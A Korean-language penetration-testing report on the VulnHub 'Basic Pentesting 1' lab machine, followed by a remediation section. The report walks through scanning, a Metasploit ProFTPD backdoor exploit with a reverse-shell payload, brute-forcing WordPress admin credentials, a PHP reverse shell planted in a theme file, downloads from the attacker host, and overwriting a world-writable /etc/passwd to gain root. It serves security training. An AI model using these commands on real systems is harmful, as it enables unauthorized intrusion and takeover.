> ## 목차
1. 개요
2. 정보 수집
3. 취약점 분석
4. Exploit
5. 대응 방안
6. 참고 자료

## 1. 개요
VulnHub에서 제공하는 `Basic Pentesting 1` 가상 머신을 대상으로 수행한 모의해킹 Write-up을 보고서 형식으로 작성  

### 목적
- 대상 시스템의 취약점 식별, 해당 취약점을 이용한 침투 시나리오를 통해 루트 권한 획득

### 테스트 환경
- 대상 머신 : VulnHub - Basic Pentesting 1
- 공격자 시스템 : Kali Linux 6.11.2 (Virtualbox)
- 네트워크 구성 : NAT Network 를 이용하여 내부 네트워크 환경 구성
- 사용 도구 : Nmap, Searchsploit, FFUF, Metasploit, LinPEAS

### 테스트 범위
- 외부에서 접근 가능한 서비스 정보 수집
- 취약한 웹/시스템 서비스 Exploit


*가상 머신 초기 화면*  

## 2. 정보 수집
#### (1) IP 확인
- 공격자 (Kali Linux) IP : 192.168.0.4
```bash
$ ip a
```
  

- 공격 대상 IP : 192.168.0.8  
내부 네트워크 대역(192.168.0.0/24)에 Ping Scan을 통해 공격 대상 IP 확인
```bash
$ nmap -sn 192.168.0.0/24
// -sn : Ping Scan
```
  

#### (2) 포트 스캐닝
포트 스캐닝을 통해 대상 시스템에서 어떤 서비스가 동작 중인지 확인
```bash
$ nmap -sV -p- 192.168.0.8
// -sV : 서비스·버전 탐지
// -p- : 모든 포트(1-65535) 대상
```
  

포트 스캐닝 결과, **TCP 21, 22, 80**번 포트가 열려 있었고, 다음과 같은 서비스가 동작 중인 것을 확인했습니다.

|PORT   |SERVICE |VERSION|
|-------|--------|-------|
|21/tcp |ftp     |ProFTPD 1.3.3c|
|22/tcp |ssh     |OpenSSH 7.2p2|
|80/tcp |http    |Apache httpd 2.4.18|


## 3. 취약점 분석
#### (1) 취약점 식별
- 공개 취약점 및 Exploit 검색 도구인 **Searchsploit** 을 사용하여 각 서비스별 취약점 식별  

```bash
$ searchsploit Proftpd 1.3.3c
$ searchsploit Openssh 7.2p2
$ searchsploit Apache httpd 2.4.18
```

  

취약점 검색 결과, 서비스별로 다음과 같은 공개된 취약점이 존재하는 것을 확인했습니다. 

*ProFTPd 1.3.3c*
- Compromised Source Backdoor Remote Code Execution  
- Backdoor Command Execution (Metasploit)  

*OpenSSH 7.2p2*
- Username Enumeration  

*Apache httpd 2.4.18*
- No Results

ProFTPd 1.3.3c, OpenSSH 7.2p2 서비스와 다르게, Apache httpd 2.4.18 서비스 자체에 대한 공개된 취약점은 확인되지 않았습니다. 그러나 웹서버로써 외부에 HTTP 서비스를 제공하고 있으므로, 웹 애플리케이션 수준에서의 보안 취약점 존재 여부에 대해서는 별도의 점검이 필요합니다.

운영 중인 웹서버(http://192.168.0.8)로 접속해 보았고, 다음과 같은 페이지로 접근할 수 있었습니다. 이후 추가적인 점검을 진행했습니다.  
  

**· robots.txt**  
숨겨진 디렉터리나 민감한 경로가 존재하는지 확인하기 위해 robots.txt 파일을 요청해 보았으나, 해당 파일이 존재하지 않는 것을 확인했습니다.  
  

**· SourceCode**  
주석 등 유용한 정보가 포함되어 있는지 확인하기 위해 페이지 소스코드를 조회해 보았으나, 유용한 정보는 얻을 수 없었습니다.  
  

**· Directory Scanning**  
숨겨진 디렉터리를 찾기 위해 웹 퍼징 도구인 **FFUF**를 사용하여 디렉터리 스캐닝을 진행했습니다.  
```bash
$ ffuf -u http://192.168.0.8/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
  

디렉터리 스캐닝 결과, secret 디렉터리가 존재하는 것을 확인하여 해당 경로로 접속해 보았고, 다음과 같은 웹 페이지로 접근했습니다.
  

해당 웹 페이지에서는 유의미한 추가 정보를 얻지 못했으나, 페이지 내 여러 링크를 확인한 결과 호스트명으로 vtcsec을 사용하고 있는 것을 확인할 수 있었습니다.  
  

/etc/hosts 파일에 대상 호스트명과 IP 주소 정보를 매핑한 뒤 /secret 경로로 재접속했습니다. 접속 결과 웹 페이지가 정상적으로 렌더링되는 것을 볼 수 있었으며, 페이지 내 Log in 링크를 통해 wp-login.php 페이지로 이동해 해당 서비스가 WordPress 기반으로 운영되고 있음을 확인했습니다. 
  
  

#### (2) 취약점 분석

#### 1. FTP
> TCP 21번 포트에서 ProFTPD 1.3.3c 서비스 운영 중  
Searchsploit 검색 결과 해당 버전과 관련된 공개된 취약점 존재    
- Compromised Source Backdoor Remote Code Execution  
- Backdoor Command Execution (Metasploit)  

백도어 관련 취약점이 존재하는 경우, 공격자는 원격 명령 실행(RCE)을 통해 중요 데이터 접근, 권한 상승, 악성코드 설치 등의 공격을 시도할 수 있습니다.  

#### 2. SSH
> TCP 22번 포트에서 OpenSSH 7.2p2 서비스 운영 중  
Searchsploit 검색 결과 해당 버전과 관련된 공개된 취약점 존재  
- Username Enumeration  

Username Enumeration 은 서버의 응답 메시지, 응답 시간, 로그 등을 통해 특정 사용자 계정의 존재 여부를 유추할 수 있는 취약점입니다. 공격자는 이를 통해 유효한 사용자 계정을 식별한 뒤, 사전대입(Dictionary)·브루트포스(Brute Force)·크리덴셜 스터핑(Credential stuffing) 등 추가 공격을 통해 계정 탈취를 시도할 수 있습니다.  

#### 3. HTTP
> TCP 80번 포트에서 Apache httpd 2.4.18 서비스 운영 중  
Searchsploit 검색 결과 해당 버전과 관련된 공개된 취약점 없음  
대상 호스트에서 웹 애플리케이션은 WordPress 기반으로 운영 중  

WordPress의 wp-login.php 페이지에 인증 보호, 로그인 시도 제한 등의 보안 설정이 제대로 되어 있지 않은 경우, 공격자는 계정 열거(Username Enumeration)·브루트포스(Brute Force) 등의 공격을 통해 관리자 계정 탈취를 시도할 수 있습니다.  

## 4. Exploit
### (1) FTP 취약점
공개된 취약점 중, 취약점에 대한 **Metasploit** 모듈이 존재하여 해당 모듈을 사용해서 공격을 시도했습니다.  
> Backdoor Command Execution (Metasploit)  -  linux/remote/16921.rb  

먼저 searchsploit의 -x 옵션을 사용해서 취약점 코드로 OSVDB-69562 가 등록되어 있는 것을 확인했습니다.   
```bash
$ searchsploit -x 16921
```
  

Metasploit 콘솔에 접속한 뒤, 해당 취약점 코드로 등록되어 있는 exploit/unix/ftp/proftpd_133c_backdoor 모듈을 확인하고 해당 모듈을 로드했습니다.  
```bash
$ msfconsole
msf6 > search OSVDB-69562
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
```
  
  

다음으로 설정해야 하는 모듈의 옵션을 확인하고, RHOSTS를 대상 시스템의 IP로 설정한 뒤 Exploit을 진행했습니다.   
```bash
> show options
> set RHOSTS 192.168.0.8
> exploit
```
  
  
  

Payload가 설정되지 않아 에러가 발생했고, 문제 해결을 위해 사용 가능한 Payload 목록을 조회해 보았습니다.  
리버스 쉘 연결을 위해 payload/cmd/unix/reverse 페이로드와 페이로드 옵션(LHOST)을 설정한 뒤, 다시 Exploit을 진행하여 루트 권한의 리버스 쉘 획득에 성공했습니다.  
```bash
> show payloads
> set PAYLOAD payload/cmd/unix/reverse
> set LHOST 192.168.0.4
> exploit
```
  
  
  
  

### (2) SSH 취약점
공개된 취약점 중, 취약점에 대해 Exploit-DB에 등록된 Python PoC 파일이 존재하여 해당 파일을 이용하여 공격을 시도했습니다.  
> Username Enumeration  -  linux/remote/40136.py  

먼저 searchsploit의 -m 옵션을 사용해서 PoC 파일을 다운로드하고, 파일을 실행하여 필요한 옵션을 확인했습니다.  
```bash
$ searchsploit -m 40136.py
$ python 40136.py
$ python 40136.py -h
```
  
  

-U (USERLIST) 옵션과 함께 Kali Linux에 내장된 워드리스트 파일 names.txt 를 사용하여 PoC 파일을 실행했습니다.  
```bash
$ python 40136.py -U /usr/share/wordlists/dirb/others/names.txt -e 192.168.0.8
```
  

실행 결과, 사용한 워드리스트 파일로는 유효한 사용자 정보를 획득하지 못했습니다. 추가로 다른 워드리스트 파일(big.txt, common.txt)을 사용하여 PoC 파일을 실행해 보았으나, 마찬가지로 유효한 사용자 정보를 획득할 수 없었습니다.  

### (3) HTTP 취약점
#### 1. WordPress 관리자 계정 탈취
WordPress 취약점 검사 도구인 **WPScan**을 사용하여 대상 웹페이지의 사용자 목록을 스캔했습니다.  
스캔 결과, 관리자 계정으로 추정되는 ID인 **'admin'** 이 확인되었습니다.  
```bash
$ wpscan --url http://192.168.0.8/secret -e u
```


다음으로 Kali Linux에 내장된 워드리스트 파일 rockyou.txt 를 사용해 admin 계정에 대한 패스워드 크래킹을 진행했습니다. 그 결과, ID와 동일하게 **'admin'**을 패스워드로 사용하고 있는 것이 확인되었습니다.  
```bash
$ wpscan --url http://192.168.0.8/secret --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```


획득한 계정 정보로 로그인한 결과, /wp-admin 페이지로의 접근이 허용되었으며, 해당 계정은 관리자 권한을 보유하고 있는 것을 확인할 수 있습니다.  


#### 2. 리버스 쉘 획득
획득한 관리자 권한을 이용하여 리버스 쉘 획득을 시도했습니다.  
먼저 관리자 페이지의 Theme - Editor 페이지로 이동한 뒤, 존재하는 파일 목록을 조회했습니다.  


다음으로 리버스 쉘 연결을 위해 404.php 파일의 내용을 수정했습니다.  
Kali Linux에서 제공하는 리버스 쉘 스크립트 파일인 php-reverse-shell.php 파일을 참고하였고,  
IP/PORT는 **192.168.0.4(Kali)/4444**로 설정했습니다.  
해당 스크립트가 실행되면 설정한 IP/PORT에서 대상 시스템으로부터의 TCP 아웃바운드 연결을 통해 리버스 쉘을 획득할 수 있습니다.  
  

nc 명령어를 사용해 설정한 포트를 리스닝 상태로 만든 후, 수정한 파일(http://192.168.0.8/secret/wp-content/themes/twentyseventeen/404.php)을 요청하여 대상 시스템의 리버스 쉘을 획득했습니다.  
**id** 명령어를 사용해 현재 사용자가 www-data임을 확인했습니다.  
```bash
$ nc -lvp 4444
```


#### 3. 권한 상승
권한 상승 벡터를 식별하기 위해 **LinPEAS**를 사용하여 대상 시스템을 스캔했습니다.  
먼저 쉘 파일 업로드를 위해 공격자 시스템(Kali)의 웹 루트(/var/www/html) 경로에 'linpeas.sh' 파일을 업로드하고 Apache 웹서버를 실행했습니다. 
```bash
$ systemctl start apache2
```

이후 대상 시스템의 /tmp 디렉터리로 이동해 `linpeas.sh` 파일을 다운로드하고, 실행 권한을 추가한 뒤 파일을 실행했습니다.
```bash
$ cd /tmp
$ wget 192.168.0.4/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

스캔 결과, /etc/passwd 파일에 world-writable 설정이 되어 있는 것이 확인되었습니다.  
  
  

/etc/passwd 파일의 root 계정 패스워드 필드를 수정하기 위해, openssl 명령어를 사용해 문자열 root를 MD5 기반 해시로 암호화 했습니다.  
```bash
$ openssl passwd -1 root
// -1 : MD5 기반 해시 암호화
```
  

대상 시스템에서 Vi 편집기로 파일 수정을 시도했으나, 입력이 제대로 되지 않는 문제가 발생했습니다.  
문제 해결을 위해 공격자 시스템의 웹 루트 경로에 passwd 파일을 생성하고 대상 시스템에서 다운로드한 뒤, 대상 시스템의 /etc/passwd 파일을 조작된 passwd 파일로 변경했습니다.  
```bash
$ wget 192.168.0.4/passwd
$ cp passwd /etc/passwd
```

*공격자 시스템*

*대상 시스템*

이후 su 명령어를 사용해서 root 계정으로 전환을 시도했지만, 에러가 발생하여 명령어를 실행할 수 없었습니다.  
에러 확인 결과, 리버스 쉘로 획득한 세션은 터미널 기능이 제한되어 있는 'dumb shell' 상태로 동작하고 있었습니다.  
문제 해결을 위해 PTY(가상 터미널)를 생성해 새로운 대화형 쉘을 실행했습니다.  
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
  

가상 터미널을 생성하고 su 명령을 다시 실행한 다음, 변경한 root 계정의 패스워드를 사용해 루트 권한 획득에 성공했습니다.  
  

## 5. 대응 방안
### (1) FTP  
대상 시스템의 FTP 서비스는 공개 취약점이 존재하는 ProFTPD 1.3.3c 버전을 사용 중인 것으로 확인되었습니다.  
4-(1)의 Exploit 단계에서 Backdoor Command Execution (Metasploit) 취약점을 이용해 루트 권한을 획득하였으며, 루트 권한을 이용한 영구적 접근 확보, 권한 변경, 데이터 유출/변조 등의 위험이 존재합니다.  

**- 대응 방안**  
· 취약점이 존재하는 ProFTPD 1.3.3c 버전을 최신 버전으로 업데이트  
· 불필요한 경우, FTP 서비스 비활성화  

### (2) SSH  
대상 시스템의 SSH 서비스는 공개 취약점이 존재하는 OpenSSH 7.2p2 버전을 사용 중인 것으로 확인되었습니다.  
4-(2)의 Exploit 단계에서 Username Enumeration 취약점을 이용해 공격을 시도했으나, 유효한 사용자 계정 획득에는 실패했습니다. 하지만 더 정교한 워드리스트 파일을 이용해 사용자 계정 획득에 성공할 가능성이 있으며, 획득한 계정을 사용한 권한 상승, 내부망 이동 등 추가 공격의 위험이 존재합니다.  

**- 대응 방안**  
· 취약점이 존재하는 OpenSSH 7.2p2 버전을 최신 버전으로 업데이트  
· 로그인 시도 시, 응답 메시지 일관화 및 응답 시간 균일화    
· 공개키 기반 인증 전환 및 패스워드 인증 비활성화  

### (3) HTTP  
대상 시스템의 HTTP 서비스는 Apache httpd 2.4.18 버전을 사용 중이며, 해당 버전에 대한 공개 취약점은 확인되지 않았습니다. 대상 호스트의 웹 애플리케이션은 WordPress 기반으로 운영되고 있었으며, 4-(3)의 Exploit 단계에서 WordPress 관리자 계정 탈취, 리버스 쉘 획득, 권한 상승의 과정을 통해 루트 권한 획득에 성공했습니다.  

**1. wp-login.php 페이지 보안 설정**  
4-(3)-1의 관리자 계정 탈취 과정에서 wp-login.php 페이지에 패스워드 복잡성 설정, 로그인 시도 제한 등 적절한 보안 설정이 되어 있지 않은 것이 확인되었습니다.  

**- 대응 방안**  
· 관리자 계정명 변경, 불필요한 관리자 계정 삭제  
· 패스워드 정책 설정 및 MFA 적용  
· 로그인 시도 제한 플러그인 설치  

**2. world writable 파일 점검**  
4-(3)-3의 Exploit 과정에서 /etc/passwd 파일에 world writable 설정이 되어 있는 것을 확인했고, 이를 이용해 루트 권한 획득에 성공했습니다.  
/etc/passwd 파일에 적절한 권한 설정이 되어 있지 않은 경우, 관리자 외 사용자가 사용자 정보를 변조하여 root를 포함한 사용자 권한 획득이 가능합니다.  
시스템 파일 등 중요 파일에 world writable 설정이 되어 있는 경우, 일반 사용자 및 비인가된 사용자가 해당 파일을 임의로 수정, 삭제가 가능합니다.  

**- 대응 방안**  
· /etc/passwd 파일의 소유자 및 권한 변경  
```bash
$ chown root /etc/passwd  
$ chmod 644 /etc/passwd  
```
  

· world writable 파일 존재 여부를 확인하고 불필요한 경우 제거  
  

## 6. 참고 자료
- 주요정보통신기반시설 기술적 취약점 분석 평가 방법 상세가이드